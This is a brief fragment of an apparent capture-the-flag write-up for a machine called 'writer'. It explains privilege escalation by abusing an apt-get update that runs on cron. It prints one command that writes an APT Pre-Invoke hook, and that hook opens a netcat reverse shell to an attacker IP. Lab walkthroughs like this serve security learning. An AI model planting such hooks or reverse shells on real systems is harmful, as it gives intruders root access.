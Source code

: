 # SSH

# Apt-get update

apt-get update is running on cron

So we can abuse, and wait for a shell:

```bash
john@writer:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.179 9001 >/tmp/f"};' > pwn
```

Source: https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/
